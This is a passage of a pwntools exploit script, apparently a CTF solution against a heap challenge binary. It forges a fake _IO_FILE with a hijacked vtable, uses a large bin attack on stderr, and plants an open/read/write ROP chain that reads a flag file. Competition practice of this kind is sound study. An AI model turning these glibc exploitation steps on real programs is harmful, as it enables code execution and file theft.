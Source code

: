```python
fake_IO_FILE = fake_IO_FILE.ljust(0x78, b'\x00')
fake_IO_FILE += p64(heapbase+0x200)  # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0x90, b'\x00')
fake_IO_FILE +=p64(heapbase+0xb30) #rax1
fake_IO_FILE = fake_IO_FILE.ljust(0xB0, b'\x00')
fake_IO_FILE += p64(1)  # _mode = 1
fake_IO_FILE = fake_IO_FILE.ljust(0xC8, b'\x00')
fake_IO_FILE += p64(libc_base+0x2160d0)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(heapbase+0xb30+0x10)  # rax2
flagaddr=heapbase+0x17d0
payload1=fake_IO_FILE+p64(flagaddr)+p64(0)+p64(0)*5+p64(heapbase+0x2050)+p64(ret)

delete(2)
add(6,0x418,payload1)
delete(6)
# p()
#large bin attack stderr poiniter
edit(0,p64(libc_base+0x21a0d0)*2+p64(heapbase+0x290)+p64(stderr-0x20))
add(5,0x440,'aaaaa')
add(7,0x430,'flag')
add(8,0x430,'eee')

#rop
payload=p64(pop_rdi)+p64(0)+p64(close)\
    +p64(pop_rdi)+p64(flagaddr)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscallret)\
        +p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(flagaddr)+p64(pop_rdx)+p64(0x50)+p64(0)+p64(read)\
            +p64(pop_rdi)+p64(1)+p64(write)
add(9,0x430,payload)
delete(5)
add(10,0x450,p64(0)+p64(1))
delete(8)
# p()

edit(5,p64(libc_base+0x21a0e0)*2+p64(heapbase+0x1370)+p64(heapbase+0x28e0-0x20+3))
#trigger __malloc_assert
io.sendafter('mew mew mew~~~~~~', 'CAT | r00t QWB QWXF$\xff')
io.sendlineafter('plz input your cat choice:\n',str(1))
io.sendlineafter('plz input your cat idx:',str(11))
#gdb.attach(io,'b* (_IO_wfile_seekoff)')
io.sendlineafter('plz input your cat size:',str(0x450))  # add(11,0X450)
io.interactive()
```

